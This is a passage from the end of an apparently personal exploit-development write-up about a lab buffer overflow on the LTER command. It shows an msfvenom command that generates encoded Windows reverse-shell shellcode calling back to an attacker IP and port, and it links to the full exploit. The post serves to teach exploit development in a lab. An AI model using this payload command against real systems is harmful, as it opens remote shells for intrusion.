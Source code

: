 ##### It is only left for us to run the program and execute the shellcode!

![](/assets/img/LTER/21.png)

##### This was fun, but as we have a lot of space due to the location of our shellcode, we can easily just swap it into a reverse shell.

##### Command used for generating the shellcode.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.139 LPORT=9000 -f py -e x86/alpha_mixed BufferRegister=ESI EXITFUNC=thread 
```

##### After running it, the reverse-shell was achieved.

![](/assets/img/LTER/22.png)

##### If you wish to see the full exploit, you can have it [here](/assets/img/LTER/LTER.txt)

##### Thanks for reading the post! Until next time!
